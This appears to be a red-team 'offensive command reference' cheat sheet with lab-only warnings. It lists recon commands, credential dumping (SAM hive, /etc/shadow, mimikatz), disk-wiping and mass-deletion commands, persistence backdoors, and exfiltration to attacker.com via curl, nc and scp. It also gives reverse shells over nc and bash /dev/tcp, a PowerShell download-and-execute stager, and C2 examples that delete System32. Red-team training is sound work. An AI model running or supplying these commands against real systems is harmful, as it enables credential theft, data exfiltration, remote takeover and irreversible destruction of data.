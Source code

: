 ⚠️ Warning: These commands can destroy data, disable systems, or exfiltrate sensitive information. Only execute in isolated VMs/labs you own. Never run them on real systems without explicit permission.

🔥 Offensive Command Reference (For Red Team Simulation)
🧠 SYSTEM RECONNAISSANCE
Command	Target OS	Description
whoami	All	Current user
hostname	All	System hostname
ipconfig /all	Windows	Detailed IP info
ifconfig	Linux/mac	Network interfaces
netstat -ano	Windows	Open ports with PID
netstat -tulpn	Linux	Active network sockets
tasklist / ps aux	All	Running processes
wmic product get name	Windows	Installed programs
net user	Windows	List users
cat /etc/passwd	Linux	Local user list

🔑 CREDENTIAL DUMPING
Command	Target OS	Purpose
reg save HKLM\SAM sam	Windows	Save SAM hive
reg save HKLM\SYSTEM system	Windows	Save SYSTEM hive
copy C:\Windows\System32\config\SAM	Windows	Directly copy credential database
mimikatz (uploaded binary)	Windows	Extract passwords/tokens
cat /etc/shadow	Linux	Password hashes (requires root)
find / -name "*.kdbx"	Linux	Find KeePass DBs

💣 DESTRUCTIVE & WIPING COMMANDS (⚠️ DO NOT USE OUTSIDE OF A LAB)
Command	Target OS	Effect
del /f /s /q C:\*.*	Windows	Deletes all files (forced)
rd /s /q C:\	Windows	Recursively deletes root directory
format C: /q /fs:NTFS	Windows	Quick format (requires prompt bypass)
rm -rf / --no-preserve-root	Linux	Deletes entire root file system
dd if=/dev/zero of=/dev/sda bs=1M	Linux	Overwrites disk with zeroes
mkfs.ext4 /dev/sda	Linux	Reformats disk

💡 These are high-risk "scorched earth" commands. Use only to simulate ransomware, disk wiping, or sabotage scenarios.

🪟 PERSISTENCE & BACKDOORS
Command	Target OS	Effect
schtasks /create /tn backdoor ...	Windows	Schedule task to run on boot
reg add HKCU\Software\Microsoft\Windows\...	Windows	Registry-based startup persistence
echo @reboot python3 client.py >> crontab	Linux	Adds to crontab for startup
cp client.py /etc/init.d/ && update-rc.d	Linux	Boot persistence
copy backdoor.exe C:\Users\Public\...	Windows	Drops payload into shared location

📡 DATA EXFILTRATION
Command	Target OS	Function
powershell Invoke-WebRequest ...	Windows	Upload file to remote server
curl -F 'file=@/etc/passwd' http://...	Linux	Exfiltrates via HTTP POST
nc attacker.com 4444 < file.txt	All	Send file over raw socket
scp file.txt user@attacker.com:/loot	All	Secure copy to remote attacker

🎯 LATERAL MOVEMENT
Command	Target OS	Description
net use \\victim\C$ /user:admin pass	Windows	Authenticate to remote admin share
wmic /node:"victim" process call create	Windows	Run remote command
smbclient //victim/C$ -U admin	Linux	Connect to Windows share
ssh user@192.168.1.20	Linux	SSH pivoting

🐚 PAYLOAD EXECUTION (Reverse Shells)
Command	Target OS	Description
nc -e /bin/sh attacker_ip 4444	Linux	Reverse shell (Unix)
powershell -c "IEX (New-Object WebClient).DownloadString(...)"	Windows	PowerShell stager
bash -i >& /dev/tcp/attacker_ip/4444 0>&1	Linux	Bash reverse shell

🦠 RANSOMWARE / LOCKING (Simulated)
Command	Description
Python script to encrypt user folders using AES	Simulate ransomware infection
Replace .txt files with ransom notes	Mock file renaming / hostage behavior
Disable Task Manager, Regedit, Explorer	Simulate lockscreen malware

⚠️ BONUS: COMBO KILL SWITCH (for test VM reset)
bash
Copy
Edit
# Linux kill-switch
rm -rf ~/Documents ~/Pictures ~/Desktop && pkill -u $(whoami)

# Windows kill-switch
del /f /q /s "%USERPROFILE%\Documents" && shutdown /s /t 0
🧪 Usage in Reverse Shell
From the C2 terminal:

bash
Copy
Edit
shell @192.168.1.15 >> net user
shell @192.168.1.15 >> reg save HKLM\SAM sam
shell @192.168.1.15 >> del /f /s /q C:\Windows\System32
shell @192.168.1.15 >> powershell -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.2/payload.ps1')"
🔐 Precautionary Notes
Always test in virtualized lab environments (Kali, Windows VM, Linux sandbox).

Run inside isolated virtual switches or NAT.

Use snapshots and automation to reset lab state after destructive tests.